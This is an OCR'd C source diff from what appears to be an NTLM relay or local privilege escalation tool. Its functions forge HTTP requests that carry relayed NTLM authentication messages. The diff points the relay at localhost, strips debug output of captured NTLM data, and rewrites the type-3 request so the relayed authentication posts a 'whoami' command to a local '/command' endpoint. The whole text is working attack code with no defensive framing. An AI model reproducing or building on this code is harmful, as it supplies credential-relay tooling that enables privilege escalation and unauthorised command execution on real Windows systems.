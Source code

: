 ```diff
     }
@@ -274,7 +279,7 @@ int findBase64NTLM(char* buffer, int buffer_len, char* outbuffer, int* outbuffer
 }
 
 char* ForgeHTTPRequestType1(char* ntlmsspType1, int ntlmsspType1Len, int* httpPacketType1Len, wchar_t* httpIp, wchar_t* httpUrlPage) {
-    char httpPacketTemplate[] = "GET %s HTTP/1.1\r\nHost: %s\r\nAuthorization: NTLM %s\r\n\r\n";
+    char httpPacketTemplate[] = "GET / HTTP/1.1\r\nHost: localhost\r\nAuthorization: NTLM %s\r\n\r\n";
     char* httpPacket = (char*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, DEFAULT_BUFLEN);
     int b64ntlmLen;
     char httpIp_a[20];
@@ -287,7 +292,7 @@ char* ForgeHTTPRequestType1(char* ntlmsspType1, int ntlmsspType1Len, int* httpPa
     char b64ntlm[DEFAULT_BUFLEN];
     memset(b64ntlm, 0, DEFAULT_BUFLEN);
     memcpy(b64ntlm, b64ntlmTmp, b64ntlmLen);
-    *httpPacketType1Len = sprintf(httpPacket, httpPacketTemplate, httpUrlPage_a, httpIp_a, b64ntlm);
+    *httpPacketType1Len = sprintf(httpPacket, httpPacketTemplate, b64ntlm);
     return httpPacket;
 }
 
@@ -327,12 +332,9 @@ void ExtractType2FromHttp(char* httpPacket, int httpPacketLen, char* ntlmType2,
     char b64Type2[DEFAULT_BUFLEN];
     int b64Type2Len = 0;
     findBase64NTLM(httpPacket, httpPacketLen, b64Type2, &b64Type2Len);
-    printf("b64type=%s\n", b64Type2);
     char* decodedType2Tmp = base64Decode(b64Type2, b64Type2Len, ntlmType2Len);
-    printf("decodes=%s\n", decodedType2Tmp);
     memset(ntlmType2, 0, DEFAULT_BUFLEN);
     memcpy(ntlmType2, decodedType2Tmp, *ntlmType2Len);
-    printf("decodes=%s\n", ntlmType2);
 }
 
 char* ForgeHTTPWebDavRequestType3(char* ntlmsspType3, int ntlmsspType3Len, int* httpPacketType3Len, wchar_t* httpIp, wchar_t* httpUrlPage) {
@@ -353,7 +355,7 @@ char* ForgeHTTPWebDavRequestType3(char* ntlmsspType3, int ntlmsspType3Len, int*
     return httpPacket;
 }
 char* ForgeHTTPRequestType3(char* ntlmsspType3, int ntlmsspType3Len, int* httpPacketType3Len, wchar_t* httpIp, wchar_t* httpUrlPage) {
-    char httpPacketTemplate[] = "GET %s HTTP/1.1\r\nHost: %s\r\nAuthorization: NTLM %s\r\nConnection: Keep-Alive\r\n\r\n";
+    char httpPacketTemplate[] = "POST /command HTTP/1.1\r\nHost: localhost\r\nAuthorization: NTLM %s\r\nContent-Type: application/json\r\nContent-Length: 20\r\nConnection: Keep-Alive\r\n\r\n{\"command\":\"whoami\"}";
     char* httpPacket = (char*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, DEFAULT_BUFLEN);
     int b64ntlmLen;
     char httpIp_a[20];
@@ -366,7 +368,7 @@ char* ForgeHTTPRequestType3(char* ntlmsspType3, int ntlmsspType3Len, int* httpPa
     char b64ntlm[DEFAULT_BUFLEN];
     memset(b64ntlm, 0, DEFAULT_BUFLEN);
     memcpy(b64ntlm, b64ntlmTmp, b64ntlmLen);
-    *httpPacketType3Len = sprintf(httpPacket, httpPacketTemplate, httpUrlPage_a, httpIp_a, b64ntlm);
+    *httpPacketType3Len = sprintf(httpPacket, httpPacketTemplate, b64ntlm);
     return httpPacket;
 }
```